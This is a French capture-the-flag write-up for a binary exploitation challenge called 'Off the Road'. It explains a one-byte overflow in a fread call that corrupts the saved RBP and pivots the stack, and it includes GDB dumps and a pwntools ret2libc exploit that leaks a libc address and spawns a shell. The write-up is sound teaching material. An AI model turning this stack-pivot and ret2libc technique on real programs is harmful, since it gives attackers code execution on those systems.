 ## PWN / Off the Road

<p align="center">
  <img src="img/consignes.png" />
</p>

### Fichiers

- binaire : [off-the-road](off-the-road)
- libc : [libc-2.27.so](libc-2.27.so)

### Analyse

```bash
$ file off-the-road
off-the-road: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=a36c432bd8216f703e1205989b4a393596bf8c15, for GNU/Linux 3.2.0, not stripped

$ checksec --file=off-the-road
RELRO           STACK CANARY      NX            PIE
Partial RELRO   No canary found   NX enabled    No PIE
```

En décompilant le binaire, on regarde le code, `main` ne fait rien de particulier :

```c
void main(void)

{
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  puts("Good luck ;)");
  getInput();
  return;
}
```

```c
void getInput(void)

{
 ...
  fread(&local_108,1,0x101,stdin);
  return;
}
```

En revanche, la fonction récupérant l'entrée utilisateur lit 0x101 octets pour un buffer pouvant en contenir 0x100.

Nous allons donc déborder de 1 octet sur la stack-frame de `getInput()`.

La stack-frame est de la sorte :

```
buffer      <= $rsp
buffer
....
buffer
buffer
saved RBP   <= $rbp
saved RIP
```

Donc si on déborde de 1 octet de buffer, on va écraser l'octet de poids faible de `saved_rbp`, et en sortant quittant la fonction `getInput()`, l'épilogue sera modifié : https://www.esaracco.fr/documentation/assembly/assembly/les-fonctions.html

Dans GDB :

```
gdb-peda$ x/50gx $rsp
0x7fffffffdeb0:	0x4141414141414141	0x4141414141414141
0x7fffffffdec0:	0x4141414141414141	0x4141414141414141
0x7fffffffded0:	0x4141414141414141	0x4141414141414141
0x7fffffffdee0:	0x4141414141414141	0x4141414141414141
0x7fffffffdef0:	0x4141414141414141	0x4141414141414141
0x7fffffffdf00:	0x4141414141414141	0x4141414141414141
0x7fffffffdf10:	0x4141414141414141	0x4141414141414141
0x7fffffffdf20:	0x4141414141414141	0x4141414141414141
0x7fffffffdf30:	0x4141414141414141	0x4141414141414141
0x7fffffffdf40:	0x4141414141414141	0x4141414141414141
0x7fffffffdf50:	0x4141414141414141	0x4141414141414141
0x7fffffffdf60:	0x4141414141414141	0x4141414141414141
0x7fffffffdf70:	0x4141414141414141	0x4141414141414141
0x7fffffffdf80:	0x4141414141414141	0x4141414141414141
0x7fffffffdf90:	0x4141414141414141	0x4141414141414141
0x7fffffffdfa0:	0x4141414141414141	0x4141414141414141
0x7fffffffdfb0:	0x00007fffffffdf41	0x0000000000401340  <= saved_rbp modifié : 0x00007fffffffdf41
```

Les dernières instructions des fonctions sont `LEAVE RET`, ce qui correspond à :

```
mov rsp, rbp  <= rapporte le somment de pile au bas de la pile
pop rbp       <= met saved_rbp dans rbp
pop rip       <= met saved_rip dans rip
```


En quittant `getInput` on va retourner dans le `main` à l'épilogue de `main`, mais avec `$rbp = 0x00007fffffffdf41`

A nouveau l'épilogue de `main` se déroule, sauf que RBP modifié pointe dans dans notre input, et le programme va charger la valeur suivante dans RIP pour quitter `main`.

On contrôle donc un peu le flow d'exécution du programme.



### Exploit

En terminant notre input par `0x00` on va modifier le saved_rbp en `0x00007fffffffdf00` pour pointer proprement dans notre payload.

L'idée en suite est un ret2libc classique :
- leaker une adresse de la libc en appelant : `puts(puts@GOT)`
- rappeler `getInput` pour un deuxième payload
- effectuer un `system("/bin/sh")`

Faut tester un peu le rappel de `getInput`, pour se retrouver dans une situation où le saved_rbp modifié pointe assez haut dans notre payload.

Du coup je rappelle l'adresse `0x40117b` qui correspond à `0040117e 48 81 ec SUB RSP,0x100` et non directement sur le prologue de `getInput`


Par ailleurs, l'appel à système pose quelques soucis d'alignement de la stack, normalement je le précède d'un `ret`, mais là ça ne changeait rien.

Je pouvais faire un `puts(&/bin/sh)` qui m'affichait bien "/bin/sh" après le 2e payload, confirmant qu'il fonctionne.

Du coup de façon artificielle j'ai un peu bourré la stack avec du junk.

Par ailleurs pour être sûr de taper dans le payload, le padding est des `ret`

- code : [off-the-road.py](off-the-road.py)

```python
payload = b""
payload += p64(ret) * (32 - 4)
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(get_input)
payload += b"\x00"

r = conn()

rep = r.recvuntil(b'Good luck ;)\n')
print(rep)

r.send(payload)

rep = r.recv()

leak = rep.split(b"\n")[0].strip().ljust(8,b'\x00')
log.success("Leak puts@libc : " + hex(u64(leak)))

offset = u64(leak) - puts_libc
sys = offset + sys_libc
bin_sh = offset + bin_sh_libc

payload2 = b""
payload2 += p64(ret) * (32-5)
payload2 += b"CCCCCCCC"
payload2 += p64(pop_rdi)
payload2 += p64(bin_sh)
payload2 += p64(sys)
payload2 += b"CCCCCCCC"  # try some stuffs for stack alignement needed by sys
payload2 += b"\x08"

r.send(payload2)
```
